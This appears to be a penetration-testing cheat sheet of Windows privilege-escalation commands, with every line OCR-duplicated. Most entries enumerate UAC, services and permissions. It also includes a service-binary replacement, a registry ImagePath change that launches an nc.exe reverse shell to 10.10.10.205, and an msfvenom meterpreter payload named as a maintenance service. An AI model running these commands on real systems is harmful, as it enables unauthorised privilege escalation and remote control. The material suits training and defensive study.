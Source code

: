 > Confirming UAC is enabledConfirming UAC is enabled

REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdminREG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin

> Checking UAC levelChecking UAC level

`[environment]::OSVersion.Version``[environment]::OSVersion.Version`

> Checking Windows versionChecking Windows version

`cmd /c echo %PATH%``cmd /c echo %PATH%`

> Reviewing path variableReviewing path variable

`.\SharpUp.exe audit``.\SharpUp.exe audit`

> Running SharpUpRunning SharpUp

`icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"``icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"`

> Checking service permissions with icaclsChecking service permissions with icacls

`cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"``cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"`

> Replace a service binaryReplace a service binary

`wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """``wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """`

> Searching for unquoted service pathsSearching for unquoted service paths

`accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services``accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services`

> Checking for weak service ACLs in the RegistryChecking for weak service ACLs in the Registry

`Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"``Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"`

> Changing ImagePath with PowerShellChanging ImagePath with PowerShell

`Get-CimInstance Win32_StartupCommand | select Name, command, Location, User | fl``Get-CimInstance Win32_StartupCommand | select Name, command, Location, User | fl`

> Check startup programsCheck startup programs

`msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe``msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe`

> Generating a malicious binaryGenerating a malicious binary

`get-process -Id 3324``get-process -Id 3324`

> Enumerating a process ID with PowerShellEnumerating a process ID with PowerShell
